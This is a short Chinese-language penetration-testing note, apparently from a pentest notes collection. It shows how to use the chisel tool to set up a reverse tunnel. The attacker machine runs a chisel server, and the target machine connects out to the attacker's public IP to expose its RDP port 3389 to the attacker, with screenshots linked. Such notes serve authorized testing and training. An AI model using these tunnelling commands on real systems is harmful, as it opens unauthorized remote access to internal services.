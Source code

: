 	https://github.com/jpillora/chisel
	攻击机执行
	>chisel server -p 12138 –reverse
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/182.png)

	靶机执行
	>chisel client 公网攻击机IP:12138 R:1234:127.0.0.1:3389
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/183.png)

	建立成功后，攻击机连接本机1234端口即可访问靶机3389
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/184.png)

